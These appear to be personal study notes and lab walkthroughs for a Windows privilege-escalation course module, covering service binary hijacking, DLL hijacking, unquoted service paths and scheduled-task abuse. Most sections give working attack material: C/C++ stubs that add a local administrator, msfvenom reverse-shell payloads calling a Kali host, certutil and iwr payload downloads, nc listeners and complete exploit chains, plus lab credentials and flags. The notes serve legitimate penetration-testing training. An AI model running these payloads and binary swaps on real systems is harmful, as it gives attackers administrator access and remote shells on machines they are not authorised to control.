. .\PowerUp.ps1

# Key functions:
Get-ModifiableServiceFile   # Services where current user can replace the binary
Get-UnquotedService         # Services with unquoted paths containing spaces
Get-ModifiablePath          # Writable paths in DLL search order
```

> 🔧 **Technique:** winPEAS and PowerUp can be blocked by AV. Fallbacks: Seatbelt (`-group=all` for comprehensive output), JAWS, or full manual enumeration. Apply AV evasion techniques from [[15. Antivirus Evasion|Antivirus Evasion]] if needed.

> 🔍 **Worth remembering generally:** tools miss things. winPEAS in the CLIENTWK220 example missed: the `asdf.txt` meeting note on dave's desktop, the PSReadline history file, and the transcript in `C:\Users\Public\`. Tools are a time-saver, not a replacement for manual work. Always do both.

**Lab status: ✅ Completed (VM #1)**

**VM #1 (CLIENTWK220, bind shell port 4444):**

*winPEAS. DPAPI Masterkeys:*
- Served winPEAS from Kali: `cp /usr/share/peass/winpeas/winPEASx64.exe . && python3 -m http.server 80`
- Downloaded to target: `powershell iwr -uri http://192.168.45.159/winPEASx64.exe -Outfile C:\Users\dave\winPEAS.exe`
- Ran with output redirect: `C:\Users\dave\winPEAS.exe > C:\Users\dave\winpeas_out.txt 2>&1` (~2m40s, bind shell drops after, reconnect and search the file)
- Searched output: `findstr /i "masterkey" C:\Users\dave\winpeas_out.txt`
- Found 6 DPAPI masterkeys under dave's Protect store (SID S-1-5-21-2309961351-4093026482-2223492918-1002)
- Lab answer (full path format required, not just GUID):
  **`MasterKey: C:\Users\dave\AppData\Roaming\Microsoft\Protect\S-1-5-21-2309961351-4093026482-2223492918-1002\7ba528f7-4e73-48a3-8a67-e5680688c9ff`**

*Seatbelt. XAMPP DisplayVersion:*
- Precompiled Seatbelt available on Kali at `/home/kali/tools/exploit/SharpCollection/NetFramework_4.5_x64/Seatbelt.exe`
- Served and downloaded same way as winPEAS
- Ran: `C:\Users\dave\Seatbelt.exe -group=all > C:\Users\dave\seatbelt_out.txt 2>&1` (~58s, shell drops, reconnect)
- `findstr /i "xampp" seatbelt_out.txt` found DisplayName but not DisplayVersion in context
- Used `powershell "Select-String -Path C:\Users\dave\seatbelt_out.txt -Pattern 'XAMPP' -Context 5,5"` to show surrounding lines
- InstalledProducts section (line 905-906): `DisplayName: XAMPP` / **`DisplayVersion: 7.4.29-1`**
- Lab answer: **`7.4.29-1`**
- Bonus: Seatbelt also surfaced a meeting notes AutoSummary (line 3906) containing `securityIsNotAnOption++++++`, same credential found manually in 17.1.3, confirming tools and manual work complement each other

> 🔧 **Technique:** the lab answer requires the full `MasterKey: C:\Users\...\<GUID>` path format, submitting just the bare GUID is rejected. Copy the full line from winPEAS output.

> 🔍 **Worth remembering generally:** bind shells sometimes drop after a long-running process like winPEAS/Seatbelt completes. Redirect output to a file first (`> out.txt 2>&1`), reconnect, then search the file, much more reliable than trying to capture live scrolling output over nc.

> 🔍 **Worth remembering generally:** `findstr` shows matching lines with no context. For "find the nearby field" problems, use `Select-String -Context N,N` in PowerShell instead, it shows N lines before and after each match.

> 📸 Screenshot: winPEAS DPAPI Masterkeys section showing the six keys under dave's Protect store
> 📸 Screenshot: Seatbelt InstalledProducts section showing XAMPP DisplayVersion 7.4.29-1
> 📸 Screenshot: Seatbelt AutoSummary section showing steve's password in meeting notes

#### Tags: #WinPEAS #PowerUp #Seatbelt #AutomatedEnumeration #DPAPI #Module17

---

## 17.2. Leveraging Windows Services

A Windows service is a long-running process managed by the Service Control Manager. Services have associated binary files and run under a specified user context (LocalSystem, Network Service, a local user, or a domain user). Three ways to abuse them for privesc:

1. Replace the service binary itself (if you can write to it)
2. Replace a DLL the binary loads (if you can write to the DLL or a directory the binary searches)
3. Drop a binary into a directory for an unquoted service path (if you can write to a directory in the path)

### 17.2.1. Service Binary Hijacking

If a service binary is writable by your user, replace it with a malicious binary. When the service starts (or restarts), it runs your code with the service's privileges -- often SYSTEM.



#### Enumeration

```powershell
# List running services with binary paths
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# Check permissions on the binary
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

**icacls permission masks:**

| Mask | Permission |
|---|---|
| F | Full access |
| M | Modify access |
| RX | Read and execute |
| R | Read-only |
| W | Write-only |

Look for `BUILTIN\Users:(F)` or `BUILTIN\Users:(M)` -- that means any standard user (including you) can replace the binary. Missing `(I)` before the permission means it was set explicitly, not inherited -- this often means an admin deliberately set it that way without understanding the security implication.

```powershell
# Check startup type (do you need to reboot to trigger?)
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

# Check if you have shutdown privilege (needed for reboot approach)
whoami /priv   # look for SeShutdownPrivilege
```

#### Malicious Binary

```c
// adduser.c -- creates a new local admin
#include <stdlib.h>

int main() {
    int i;
    i = system("net user dave2 password123! /add");
    i = system("net localgroup administrators dave2 /add");
    return 0;
}
```

```bash
# Cross-compile on Kali for 64-bit Windows target
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Exploitation

```powershell
# Download malicious binary
iwr -uri http://<kali-ip>/adduser.exe -Outfile adduser.exe

# Backup original, replace with malicious
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe          # backup original
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe       # replace

# Try to restart service (probably denied as non-admin)
net stop mysql    # likely: "System error 5 has occurred. Access is denied."

# If StartMode is Auto, reboot instead
shutdown /r /t 0

# After reboot, verify
Get-LocalGroupMember administrators   # should now include dave2
```

#### PowerUp Automation

```powershell
# Import PowerUp
. .\PowerUp.ps1

# Identify vulnerable services
Get-ModifiableServiceFile
# Output includes: ServiceName, Path, ModifiableFile, permissions, CanRestart

# AbuseFunction (creates john:Password123! as local admin)
Install-ServiceBinary -Name 'mysql'
# Note: may fail if service path has arguments with paths (known PowerUp bug)
# Manual exploitation is more reliable
```

> 🔧 **Technique:** PowerUp's `Install-ServiceBinary` can fail when the service binary path contains arguments that include file paths (e.g., `--defaults-file=C:\xampp\...`). `Get-ModifiablePath` returns empty results for these. In that case, ignore the AbuseFunction and do the manual binary swap.

> 🔍 **Worth remembering generally:** don't reboot production systems without explicit client approval. A service that fails to come back up can cause serious downtime. In real assessments, coordinate reboots with the client's IT team. In labs: go ahead.

> 📸 Screenshot: `icacls mysqld.exe` showing `BUILTIN\Users:(F)` -- the key finding
> 📸 Screenshot: `Get-LocalGroupMember administrators` after reboot showing dave2 was created

**Lab status: ✅ Completed (VM #1 and VM #2)**

**VM #1 (CLIENTWK220, RDP as dave:lab):**
- `Get-CimInstance -ClassName win32_service` → found `mysql` running from `C:\xampp\mysql\bin\mysqld.exe`
- `icacls "C:\xampp\mysql\bin\mysqld.exe"` → `BUILTIN\Users:(F)`, full write access for all users
- Confirmed `StartMode: Auto` and `SeShutdownPrivilege` available to dave
- Compiled malicious binary on Kali: `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
  - Creates `dave2:password123!` and adds to local Administrators
- Downloaded via `iwr`, swapped binaries:
  ```powershell
  move C:\xampp\mysql\bin\mysqld.exe C:\Users\dave\mysqld.exe   # backup original
  move C:\Users\dave\adduser.exe C:\xampp\mysql\bin\mysqld.exe  # plant malicious
  ```
- `shutdown /r /t 0` → RDP drops, machine reboots
- Reconnected as dave → `Get-LocalGroupMember administrators` → `dave2` present
- `evil-winrm -i 192.168.206.220 -u dave2 -p 'password123!'` → shell as local admin
- Flag: **`OS{cef4d6f4321bb9dd6aba394818e8b7f9}`** at `C:\Users\daveadmin\Desktop\flag.txt`

**VM #2 (CLIENTWK221, RDP as milena / MyBirthDayIsInJuly1!):**
- Downloaded and imported PowerUp.ps1, ran `Get-ModifiableServiceFile`
- Found `BackupMonitor` service: binary at `C:\BackupMonitor\BackupMonitor.exe`, runs as `.\roy`, `CanRestart: True`
- edgeupdate entries ignored: `ModifiableFile: C:\` (directory, not binary) and `CanRestart: False`
- Generated reverse shell on Kali: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.159 LPORT=4444 -f exe -o shell.exe`
- Started listener: `nc -lvnp 4444`
- Swapped binary:
  ```powershell
  move C:\BackupMonitor\BackupMonitor.exe C:\Users\milena\BackupMonitor.exe
  move C:\Users\milena\shell.exe C:\BackupMonitor\BackupMonitor.exe
  ```
- `Restart-Service BackupMonitor` → shell caught as `clientwk221\roy`
- Flag: **`OS{652e043d55c7ff94a2e33ae74937e21d}`** at `C:\Users\roy\Desktop\flag.txt`

> 🔍 **Worth remembering generally:** when the service runs as a named user (not SYSTEM), use a reverse shell payload rather than adduser.exe, you need a shell as that specific user to access their files. adduser only helps when the service runs as SYSTEM/admin and you need lateral movement.

> 🔁 Similar to: [[15. Antivirus Evasion#Shellter|Antivirus Evasion#Shellter]], payload delivery via binary replacement; the shell catches in the same nc listener pattern.

#### Tags: #ServiceBinaryHijacking #icacls #mingw #Windows #PrivilegeEscalation #Module17

---

#### 17.2.1.1. SharpUp -- Automated Service Misconfiguration Audit

SharpUp (C# port of PowerUp) quickly finds modifiable services and writable service binaries:

```cmd
:: Audit all common service misconfigs at once
SharpUp.exe audit

:: Typical output:
:: === Modifiable Services ===
::   WindscribeService (path: "C:\Program Files (x86)\Windscribe\WindscribeService.exe")
:: === Modifiable Service Binaries ===
::   SecurityService (path: "C:\Program Files (x86)\PCProtect\SecurityService.exe")
```

**Modifiable Service** = you can change the service's config via `sc config` (binPath replacement).
**Modifiable Service Binary** = you can overwrite the `.exe` file the service loads -- replace it with a payload.

**Full WPE.13 exploit chain:**

```bash
# Step 1 (Kali): generate a replacement service binary as a reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f exe > SecurityService.exe
python3 -m http.server 8080

# Step 2 (Kali): start listener
nc -nvlp 4444
```

```cmd
:: Step 3 (target): download and replace the service binary
certutil.exe -f -urlcache http://KALI_IP:8080/SecurityService.exe SecurityService.exe
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"

:: Step 4: trigger execution
sc start SecurityService
:: Expected: reverse shell in nc listener as SYSTEM
```

> 🔁 **Similar to:** the standard 17.2.1 service binary hijacking above -- same technique, SharpUp just automates the discovery step.

**Lab Q&A (WPE.13):**

| Q | Answer |
|---|---|
| SharpUp audit flag for modifiable binary | **Modifiable Service Binaries** |
| Flag after SYSTEM shell | **Aud1t_th0se_s3rv1ce_p3rms!** |

#### Tags: #ServiceBinaryHijacking #icacls #mingw #Windows #PrivilegeEscalation #SharpUp #PowerUp #Module17

---

### 17.2.2. DLL Hijacking

**Dynamic Link Libraries (DLLs)** are shared code libraries loaded by executables at runtime. If a service binary loads a DLL from a writable location (or tries to load a DLL that doesn't exist), you can plant a malicious DLL there instead.

Two vectors:
1. **Replace an existing DLL** the service uses (if you can write to it) -- service may lose functionality but your code runs
2. **Missing DLL hijacking** -- binary tries to load a DLL that doesn't exist anywhere in the search order; plant yours in a writable location it checks first

#### DLL Search Order (Safe DLL Search Mode enabled -- default on modern Windows)



> 🔍 **Worth remembering generally:** with safe DLL search mode DISABLED (rare, but check), the current directory moves to position 2, making it much easier to hijack. Check the registry: `HKLM\System\CurrentControlSet\Control\Session Manager\SafeDllSearchMode`.

#### Finding Missing DLLs (Process Monitor)

Process Monitor captures every file system, registry, and process event in real time. To identify DLLs a process tries (and fails) to load:

1. Run Process Monitor as admin (may need to use a privileged account's credentials via UAC prompt)
2. Add filter: **Process Name → is → filezilla.exe → Include**
3. Clear events, then launch the target application
4. Add second filter: **Operation → is → CreateFile → Include**
5. Add third filter: **Path → contains → TextShaping.dll → Include** (or the DLL name you're hunting)
6. Look for `NAME NOT FOUND` result -- that means the binary looked for the DLL there and it wasn't present

In the FileZilla 3.63.1 example:
- FileZilla looks for `TextShaping.dll` in `C:\FileZilla\FileZilla FTP Client\` first → `NAME NOT FOUND`
- Then finds it in System32 (which you can't write to)
- But you CAN write to `C:\FileZilla\FileZilla FTP Client\` (confirmed with write test)
- Plant your DLL there → it loads first (position 1 in search order wins)

#### DLL Code Template

DLLs have an optional `DllMain` entry point called when a process or thread loads/unloads the DLL. `DLL_PROCESS_ATTACH` fires when the process first loads the DLL -- exactly when you want code execution.

```cpp
// TextShaping.cpp -- malicious DLL
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
    HANDLE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved)
{
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:    // fires when process loads this DLL
            int i;
            i = system("net user dave3 password123! /add");
            i = system("net localgroup administrators dave3 /add");
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

```bash
# Cross-compile as DLL (--shared flag)
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

```powershell
# Confirm write access to target directory
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
type 'C:\FileZilla\FileZilla FTP Client\test.txt'   # should print "test"

# Transfer and place the DLL
iwr -uri http://<kali-ip>/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'

# Wait for a privileged user to launch the application
# The DLL will execute in THEIR security context, not yours
# Check results after a few minutes:
net user                    # look for dave3
net localgroup administrators  # look for dave3
```

> 🔧 **Technique:** the DLL executes with the privileges of whoever launches the application. If you plant a DLL that gets triggered when a regular user runs the app, you get their privileges (no escalation). You need a privileged user to run it. In lab environments, a simulated admin process triggers it automatically. In real assessments, wait for an admin to open the app, or combine with social engineering.

> 🔧 **Technique:** to identify the correct DLL to target on a real engagement, copy the service binary to a local VM with admin access, install Process Monitor, and replay the execution locally. That avoids needing admin on the actual target just to run Procmon.

> 📸 Screenshot: Process Monitor filtered to filezilla.exe showing `NAME NOT FOUND` for TextShaping.dll in the application directory
> 📸 Screenshot: `net user` confirming dave3 was created after a privileged user launched FileZilla

**Lab status: ✅ Completed (VM #1)**

**VM #1 (CLIENTWK220, RDP as dave:lab):**
- Skipped Process Monitor. DLL name already known from module: `TextShaping.dll` missing from `C:\FileZilla\FileZilla FTP Client\`
- Confirmed write access: `echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'` → worked
- Compiled malicious DLL on Kali:
  ```bash
  x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
  ```
  Payload: creates `dave3:password123!` as local admin on `DLL_PROCESS_ATTACH`
- Planted: `iwr -uri http://192.168.45.159/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'`
- Waited ~2 minutes for daveadmin's scheduled task to launch FileZilla
- Polled with `net user dave3`, user appeared once scheduled task fired
- `evil-winrm -i 192.168.206.220 -u dave3 -p 'password123!'` → shell as local admin
- Flag: **`OS{32667176bc11f88de10aa41735170de4}`** at `C:\Users\daveadmin\Desktop\flag.txt`

> 🔍 **Worth remembering generally:** DLL hijacking is a waiting game when the trigger is a scheduled task, unlike service binary hijacking where you control the restart. Don't try to force it; just poll `net user <newuser>` every 60 seconds. If nothing after 5 minutes, suspect a flaky task and revert.

> 🔍 **Worth remembering generally:** the `--shared` flag is what makes mingw produce a DLL instead of an EXE. Forgetting it produces an EXE that won't load as a DLL and the hijack silently fails.

> 📸 Screenshot: write test confirming dave can write to `C:\FileZilla\FileZilla FTP Client\`
> 📸 Screenshot: `net user dave3` output showing dave3 in Administrators after DLL fired
> 📸 Screenshot: evil-winrm as dave3 + flag.txt contents

#### Tags: #DLLHijacking #DLLSearchOrder #ProcessMonitor #DllMain #DLL_PROCESS_ATTACH #Module17

---

### 17.2.3. Unquoted Service Paths

When a service binary path contains spaces and is NOT enclosed in quotes, Windows has to guess where the filename ends and arguments begin. It does this by splitting at every space and appending `.exe` to test each possibility. If you can write to any directory in an interpreted path, you can plant a binary there that executes when the service starts.

#### How Windows Interprets Unquoted Paths

```
Unquoted path: C:\Program Files\My Program\My Service\service.exe

Windows tries:
  1. C:\Program.exe
  2. C:\Program Files\My.exe
  3. C:\Program Files\My Program\My.exe
  4. C:\Program Files\My Program\My Service\service.exe   ← actual binary
```



The highest-value writable directory is usually the application's own subdirectory (option 3 above) -- `C:\` and `C:\Program Files\` are almost never writable by standard users.

#### Finding Vulnerable Services

```cmd
REM Find services with spaces in path AND missing quotes (run in cmd.exe not PowerShell to avoid escaping)
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """

REM Example output:
REM GammaService  C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

```powershell
# PowerShell alternative
Get-WmiObject -Class Win32_Service | Where-Object { $_.PathName -notmatch '"' -and $_.PathName -match ' ' -and $_.PathName -notmatch 'C:\\Windows' } | Select Name,PathName
```

#### Exploitation

```powershell
# Check if you can start/stop the service (no reboot needed if yes)
Start-Service GammaService
Stop-Service GammaService

# Check write permissions on each directory in the interpreted path
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
# Look for W or F for BUILTIN\Users or NT AUTHORITY\Authenticated Users
```

The interpreted paths for `C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe`:
```
C:\Program.exe                                         (need write to C:\)
C:\Program Files\Enterprise.exe                        (need write to C:\Program Files\)
C:\Program Files\Enterprise Apps\Current.exe           (need write to C:\Program Files\Enterprise Apps\)
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe  (the real binary)
```

```powershell
# If C:\Program Files\Enterprise Apps is writable:
iwr -uri http://<kali-ip>/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'

# Start the service (or restart if you can)
Start-Service GammaService
# Error is expected if adduser.exe doesn't accept service control parameters
# BUT the binary still executed and created dave2

# Verify
net user                        # dave2 should appear
net localgroup administrators   # dave2 should be there
```

> 🔧 **Technique:** `Start-Service` may show an error because your `adduser.exe` stub doesn't properly handle Windows service control signals (START, STOP, etc.). That error is irrelevant -- the binary runs and executes its code before Windows notices the service didn't respond correctly. Check `net user` to confirm the user was created.

#### PowerUp Automation

```powershell
. .\PowerUp.ps1
Get-UnquotedService            # identifies vulnerable services + writable paths

# AbuseFunction: creates john:Password123! as local admin
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
```

> 📸 Screenshot: `wmic service get name,pathname` output with GammaService highlighted -- the unquoted path
> 📸 Screenshot: `icacls "C:\Program Files\Enterprise Apps"` showing W permission for BUILTIN\Users
> 📸 Screenshot: `net localgroup administrators` after attack confirming dave2 was added

---

#### Lab — VM #1: CLIENTWK220 (RDP as dave:lab) ✅

**Vulnerable service:** `GammaService`
**Unquoted path:** `C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe`
**Runs as:** `LocalSystem`

**Path resolution sequence:**
```
1. C:\Program.exe
2. C:\Program Files\Enterprise.exe
3. C:\Program Files\Enterprise Apps\Current.exe   ← PLANTED HERE
4. C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

**Write permission confirmed:**
```cmd
icacls "C:\Program Files\Enterprise Apps"
→ BUILTIN\Users:(OI)(CI)(RX,W)   ← W = can create files here
```

**Payload delivery:**
```cmd
REM On Kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.223 LPORT=4444 -f exe -o Current.exe
python3 -m http.server 80

REM On target (as dave, from C:\Program Files\Enterprise Apps)
certutil -urlcache -split -f http://192.168.45.223/Current.exe Current.exe
```

**Trigger problem — UAC token filtering:**

Dave can't start the service. Trying `runas /user:daveadmin cmd` and then `sc start GammaService` also fails. Running `whoami /groups` from the runas'd CMD reveals the reason:

```
BUILTIN\Administrators   Group used for deny only
```

When a non-admin user does `runas /user:<local-admin>`, Windows creates a process with a *filtered* (standard) token, the Administrators SID is present but marked "deny only." The SCM access check fails because the token can't satisfy the RP (start) ACE for Administrators. This is UAC token filtering at work, not a permissions problem.

> 🔍 **Worth remembering generally:** `runas /user:<local-admin>` from a standard-user session gives a filtered, non-elevated token, exactly like a user clicking a normal shortcut while logged in as an admin. To get an elevated token locally you need an interactive session (RDP in directly) or UAC consent (right-click Run as Administrator). Over the network, evil-winrm/PSRemoting also give filtered tokens unless `LocalAccountTokenFilterPolicy=1` in the registry.

**Finding who CAN start the service:**

```cmd
sc sdshow GammaService
REM → (A;;CCLCSWRPWPDTRC;;;S-1-5-21-...-1003)  ← RID 1003 has RP (start) rights

wmic useraccount where "SID='S-1-5-21-2309961351-4093026482-2223492918-1003'" get name
REM → steve
```

Steve has *explicit* start rights in the SDDL, no group involved, so no token filtering applies. Steve's password (`securityIsNotAnOption++++++`) was found during 17.1.3.

**Trigger and catch:**
```cmd
REM In daveadmin CMD window (or any window):
runas /user:steve "sc start GammaService"
REM Enter: securityIsNotAnOption++++++
```

**Shell:**
```
clientwk220> whoami → nt authority\system
```

> 🔁 **Similar to:** [[17. Windows Privilege Escalation#17.2.1. Service Binary Hijacking|17.2.1]], same payload delivery and catch flow. The only difference is WHERE the binary is placed (path resolution slot vs. the actual service binary directory) and WHO triggers the restart.

> 📸 Screenshot: `wmic service get name,pathname` showing GammaService unquoted path
> 📸 Screenshot: `icacls "C:\Program Files\Enterprise Apps"` showing BUILTIN\Users RX,W
> 📸 Screenshot: `whoami /groups` from daveadmin runas CMD showing Administrators as "deny only"
> 📸 Screenshot: `sc sdshow` output + `wmic useraccount` revealing steve as RID 1003
> 📸 Screenshot: nc listener receiving SYSTEM shell + whoami output

**Flag (daveadmin's desktop):** `OS{0b3c0403ab9fc3ba56de4bea2fcd8634}`

---

#### Lab — VM #2: CLIENTWK221 (RDP as damian:ICannotThinkOfAPassword1!) ✅

**Vulnerable service:** `ReynhSurveillance`
**Unquoted path:** `C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe`
**Runs as:** `.\roy` (local user, not SYSTEM)

**Path resolution sequence:**
```
1. C:\Enterprise.exe
2. C:\Enterprise Software\Monitoring.exe
3. C:\Enterprise Software\Monitoring Solution\Surveillance.exe   ← PLANTED HERE
4. C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe
```

**Write permission confirmed:**
```cmd
icacls "C:\Enterprise Software\Monitoring Solution"
→ CLIENTWK221\damian:(OI)(CI)(RX,W)   ← damian can write here directly
```

**Payload delivery:**
```cmd
REM Reuse Kali payload, rename to match target path slot
cp Current.exe Surveillance.exe
python3 -m http.server 80

REM On target (as damian, from C:\Enterprise Software\Monitoring Solution)
certutil -urlcache -split -f http://192.168.45.223/Surveillance.exe Surveillance.exe
```

**Trigger — no UAC issue here:**

Damian is a standard user with explicit start/stop rights on ReynhSurveillance, so `sc start` and `sc stop` both work directly without needing elevated context.

```cmd
sc stop ReynhSurveillance    REM stop real binary first
sc start ReynhSurveillance   REM starts our Surveillance.exe instead
```

**Shell:**
```
clientwk221> whoami → clientwk221\roy
```

The shell comes back as `roy` (the service account), not SYSTEM. The flag is on roy's desktop.

> 🔍 **Worth remembering generally:** not every service runs as SYSTEM. Always check `SERVICE_START_NAME` in `sc qc` before deciding whether the escalation path is worth pursuing. A service running as a low-priv domain account or local user might still be useful, access to that account's files, credentials, or lateral movement opportunities.

> 📸 Screenshot: `wmic service get name,pathname` showing ReynhSurveillance unquoted path
> 📸 Screenshot: `icacls "C:\Enterprise Software\Monitoring Solution"` showing damian RX,W
> 📸 Screenshot: `sc qc ReynhSurveillance` showing SERVICE_START_NAME: .\roy
> 📸 Screenshot: nc listener receiving shell as clientwk221\roy

**Flag (roy's desktop):** `OS{ec55ff1679fdca9cd15a087e725dd394}`

#### Tags: #UnquotedServicePath #WMIC #ServiceHijack #Windows #PrivilegeEscalation #Module17

---

## 17.3. Abusing Other Windows Components

### 17.3.1. Scheduled Tasks

Scheduled tasks run programs on a trigger (time, event, startup, logon). If a task runs as a privileged user and you can write to its executable, you escalate when it fires.

**Three things to always extract from each task:**
1. **As which user does it run?** (Run As User) -- if it's NT AUTHORITY\SYSTEM or an admin, it's interesting
2. **When does it trigger?** -- if the last run time was in the past and it's a one-time task, it's not useful; if it runs on a schedule, you can time your attack
3. **What does it execute?** (Task To Run) -- can you write to that binary or its directory?

```cmd
REM List all scheduled tasks with full detail
schtasks /query /fo LIST /v

REM Key fields to note:
REM   TaskName, Author, Task To Run, Run As User, Next Run Time, Schedule Type
```

```powershell
# PowerShell alternative
Get-ScheduledTask | Select TaskName,TaskPath,State | Where-Object {$_.State -ne 'Disabled'}
```

**The CLIENTWK220 example:**
```
TaskName:      \Microsoft\CacheCleanup
Task To Run:   C:\Users\steve\Pictures\BackendCacheCleanup.exe
Run As User:   daveadmin
Schedule Type: One Time Only, Minute  (runs every minute!)
Author:        CLIENTWK220\daveadmin
```

This is a gift: the task runs as `daveadmin` (privileged), every minute, and the binary is in steve's home directory (steve has Full Access to their own files).

```powershell
# Confirm permissions on the task binary
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
# Should show steve:(I)(F) -- inheritable Full Access for the owner

# Download malicious binary, replace the legitimate one
iwr -Uri http://<kali-ip>/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak  # backup
move .\BackendCacheCleanup.exe .\Pictures\                            # place malicious

# Wait for the task to fire (in this case, within a minute)
net user                        # dave2 appears
net localgroup administrators   # dave2 is an admin
```

> 🔍 **Worth remembering generally:** scheduled tasks that run frequently (every minute) are ideal targets -- you don't have to wait long to verify the attack worked. Tasks that run daily or weekly at a specific time may require planning or patience.

> 🔧 **Technique:** the same approach as service binary hijacking -- same malicious binary, same "create a local admin user" stub. The only difference is the trigger mechanism. If you can write to a file that runs as a higher-privileged user (service binary, task binary, startup script), the attack is the same.

> 📸 Screenshot: `schtasks /query` output showing CacheCleanup task's Run As User and Task To Run fields
> 📸 Screenshot: `net localgroup administrators` confirming dave2 was added after the task fired

---

#### Lab — VM #1: CLIENTWK220 (RDP as dave:lab) ✅

**Target task:** `\Microsoft\CacheCleanup`
**Binary:** `C:\Users\steve\Pictures\BackendCacheCleanup.exe`
